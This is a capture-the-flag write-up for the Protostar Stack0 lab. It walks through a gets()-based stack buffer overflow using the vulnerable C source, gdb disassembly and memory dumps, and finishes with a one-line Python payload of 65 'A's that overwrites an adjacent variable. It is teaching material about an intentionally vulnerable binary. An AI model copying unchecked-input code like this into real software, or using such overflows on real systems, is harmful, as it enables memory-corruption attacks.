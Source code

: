 # PROTOSTAR : STACK 0 
[Protostar:Stack0](https://exploit.education/protostar/stack-zero/)

In this challenge we are going to learn Stack Buffer Overflow exploitation Attack. I am going to be using kali linux and gdb debugger for the rest of the challenges.

### Source Code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```
### **CODE ANALYSIS**
#### Vulnerability
- Stack Buffer Overflow

In the above code the *gets()* function is vulnerable to Buffer Overflow attacks since *gets()* takes user input but we cannot determine how many characters are actually passed so the characters beyond 64 here will overflow and affect the adjacent memory addresses changing their values.

### **SOLUTION**

Below is the disassembly of the **main()**
```
user@protostar:/opt/protostar/bin$ gdb -q stack0
Reading symbols from /opt/protostar/bin/stack0...done.
(gdb) set disassembly-flavor intel
(gdb) disass main
Dump of assembler code for function main:
0x080483f4 <main+0>:    push   ebp
0x080483f5 <main+1>:    mov    ebp,esp
0x080483f7 <main+3>:    and    esp,0xfffffff0
0x080483fa <main+6>:    sub    esp,0x60
0x080483fd <main+9>:    mov    DWORD PTR [esp+0x5c],0x0
0x08048405 <main+17>:   lea    eax,[esp+0x1c]
0x08048409 <main+21>:   mov    DWORD PTR [esp],eax
0x0804840c <main+24>:   call   0x804830c <gets@plt>
0x08048411 <main+29>:   mov    eax,DWORD PTR [esp+0x5c]
0x08048415 <main+33>:   test   eax,eax
0x08048417 <main+35>:   je     0x8048427 <main+51>
0x08048419 <main+37>:   mov    DWORD PTR [esp],0x8048500
0x08048420 <main+44>:   call   0x804832c <puts@plt>
0x08048425 <main+49>:   jmp    0x8048433 <main+63>
0x08048427 <main+51>:   mov    DWORD PTR [esp],0x8048529
0x0804842e <main+58>:   call   0x804832c <puts@plt>
0x08048433 <main+63>:   leave  
0x08048434 <main+64>:   ret    
End of assembler dump.
(gdb) 
```
If you notice properly at **0x08048415** there is a condition which does bitwise AND operation on eax register. If eax = 0 then the eip register(instruction pointer) jumps to **0x08048427** and prints **"Try again?\n"**.
To prevent that we need to change value of **modified** variable.
<br>
<br>
Passing input and analyzing the program.
```
(gdb) b *0x08048411
Breakpoint 1 at 0x8048411: file stack0/stack0.c, line 13.
(gdb) r
Starting program: /opt/protostar/bin/stack0 
AAAAAAAAAAAAA

Breakpoint 1, main (argc=1, argv=0xbffff854) at stack0/stack0.c:13
13      stack0/stack0.c: No such file or directory.
        in stack0/stack0.c
(gdb) x/20x $esp
0xbffff740:     0xbffff75c      0x00000001      0xb7fff8f8      0xb7f0186e
0xbffff750:     0xb7fd7ff4      0xb7ec6165      0xbffff768      0x41414141
0xbffff760:     0x41414141      0x41414141      0xbfff0041      0x080482e8
0xbffff770:     0xb7ff1040      0x08049620      0xbffff7a8      0x08048469
0xbffff780:     0xb7fd8304      0xb7fd7ff4      0x08048450      0xbffff7a8
(gdb) c
Continuing.
Try again?

Program exited with code 013.
(gdb) 
```

I think you have noticed that at **0xbffff760** there are **0x41**,
this is because is hexadecimal "A" is denoted as 41 and also the
address shows us the start of our **buffer** variable.
<br>
<br>
Let's pass more than 64 characters and analyze the program again...
```
(gdb) r
Starting program: /opt/protostar/bin/stack0 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, main (argc=1, argv=0xbffff854) at stack0/stack0.c:13
13      in stack0/stack0.c
(gdb) x/20x $esp
0xbffff740:     0xbffff75c      0x00000001      0xb7fff8f8      0xb7f0186e
0xbffff750:     0xb7fd7ff4      0xb7ec6165      0xbffff768      0x41414141
0xbffff760:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff770:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff780:     0x41414141      0x41414141      0x41414141      0x41414141
(gdb) c
Continuing.
you have changed the 'modified' variable

Program exited with code 051.
(gdb) 
```
Great the stack has overflown with **0x41** and the modified variable
value has changed.<br>

### Python script to solve the challenge

```
user@protostar:/opt/protostar/bin$ (python -c "print 'A'*65") | ./stack0
you have changed the 'modified' variable
user@protostar:/opt/protostar/bin$ 
```
